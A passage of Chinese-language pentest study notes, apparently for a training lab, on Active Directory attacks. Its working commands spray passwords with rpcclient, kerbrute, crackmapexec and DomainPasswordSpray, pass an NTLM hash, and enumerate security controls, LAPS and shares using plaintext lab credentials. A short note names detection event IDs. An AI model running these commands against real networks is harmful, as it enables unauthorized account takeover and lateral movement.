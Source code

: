 ### 6.3.3  实施Linux的密码喷射攻击：

```
for u in $(cat valid_user.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

```
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123 #验证
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep + #--local-auth 标志将告诉该工具仅尝试在每台计算机上登录一次，从而消除任何帐户锁定的风险。
```

### 6.3.4 实施windows的密码喷射攻击：

```powershell-session
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

在域控制器的安全日志中，事件 ID [4625 的许多实例：帐户在短时间内无法登录](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)可能表示密码喷射攻击。事件 ID [4771：Kerberos 预身份验证失败 ](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)，这可能表示 LDAP 密码喷射尝试。

## 6.4 列举安全控制

有些组织比其他组织有更严格的保护措施，而有些组织则没有在整个过程中平等地应用安全控制。可能有一些策略应用于某些计算机，这些策略可能会使我们的枚举更加困难，而这些策略不会应用于其他计算机。

```
Get-MpComputerStatus #检查defender的状态
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections #查看安全策略
$ExecutionContext.SessionState.LanguageMode #查看语言模式，约束语言模式会锁定有效使用 PowerShell 所需的许多功能，例如阻止 COM 对象、仅允许已批准的 .NET 类型、基于 XAML 的工作流、PowerShell 类等。
Find-LAPSDelegatedGroups #Microsoft 本地管理员密码解决方案 （LAPS） 用于随机化和轮换 Windows 主机上的本地管理员密码，并防止横向移动。我们可以列举哪些域用户可以读取为安装了 LAPS 的计算机设置的 LAPS 密码，以及哪些计算机未安装 LAPS。
Find-AdmPwdExtendedRights
Get-LAPSComputers
```

## 6.5 Linux凭证枚举

### 6.5.1 crackmapexec

```
crackmapexec smb -h
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --loggedon-users
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'会写入/tmp/cme_spider_plus/<ip of host> JSON 文件。 
```
